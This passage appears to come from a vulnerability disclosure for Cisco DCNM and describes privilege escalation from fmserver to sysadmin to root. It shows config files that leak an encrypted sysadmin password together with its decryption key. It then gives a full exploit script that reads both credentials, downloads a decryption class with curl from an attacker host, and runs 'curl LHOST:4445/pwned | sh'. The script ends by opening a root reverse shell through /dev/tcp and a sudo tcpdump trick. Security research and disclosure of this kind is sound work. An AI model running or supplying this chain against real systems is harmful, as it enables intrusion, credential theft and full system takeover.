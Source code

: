 ```
cat conf/server.properties | grep sftp.
server.sftp.rootdir=/home/sysadmin
server.sftp.username=sysadmin
server.sftp.password=#oW2aIaDe4ZXpArPDJr8fg==
server.sftp.enabled=true
```

The password is encrypted with the Blowfish algorithm, but helpfully we can also find the decryption key in the `/usr/local/cisco/dcm/fm/conf/serverstore.properties` file, which is also readable by the `fmserver` user:

```
cat /usr/local/cisco/dcm/fm/conf/serverstore.properties  | grep dcnm.store
dcnm.store=MASK-1S8cCf8a0QUIlKo1TX2ynv;6QFYsrGt;2500
```
  
Decrypting the `server.sftp.password` with the `dcnm.store` key will get us the `sysadmin` password, allowing us to escalate privileges from `fmserver` to `sysadmin`!
From then on, we just need to use the [GTFObins](https://gtfobins.github.io/gtfobins/tcpdump/) technique described in [Vulnerability #2](#2-insecure-sudo-permissions) to obtain root privileges and completely pwn Cisco DCNM.


### Full Exploit
The provided exploit is a bit complex but works exactly as described above. To automate the privilege escalation to root it executes `curl LHOST:4445/pwned | sh` in the `Exploit` class to fetch the `pwned` shell script and execute it.

The `pwned` file is shown below:

```bash
#!/bin/bash

# obtain sysadmin password and decryption key (NOTE: can these regexes fail?)
PASSWORD=`cat /usr/local/cisco/dcm/fm/conf/server.properties  | grep 'server.sftp.password' | grep -o '#.*'`
KEY=`cat /usr/local/cisco/dcm/fm/conf/serverstore.properties | grep 'dcnm.store' | grep -o 'MASK-.*'`

# download decryption class
curl 'LHOST_XXX:4445/DCNMCrypto.class' -o /tmp/DCNMCrypto.class

# change to /tmp/ before executing the decryption class
cd /tmp
SYSADMINPW=`/usr/local/cisco/dcm/java/jdk11/bin/java DCNMCrypto "$PASSWORD" "$KEY"`
rm /tmp/DCNMCrypto.class

# create Shelly
cat <<EOF > /tmp/shelly.sh
#!/bin/bash
TF=\$(mktemp)
echo "bash -i >& /dev/tcp/LHOST_XXX/4446 0>&1" > \$TF
chmod 777 \$TF
PASS=\`cat /tmp/pass\`
echo "\$PASS" | sudo -S tcpdump -ln -i lo -w /dev/null -W 1 -G 1 -z \$TF -Z root
EOF

# dump the password to a file we can read with the script above and
# make both files readable by sysadmin
# NOTE: pass with special chars might create trouble here?
echo $SYSADMINPW > /tmp/pass
chmod 777 /tmp/shelly.sh /tmp/pass

# get reverse root shell
echo "$SYSADMINPW" | su - sysadmin -c '/tmp/shelly.sh'

```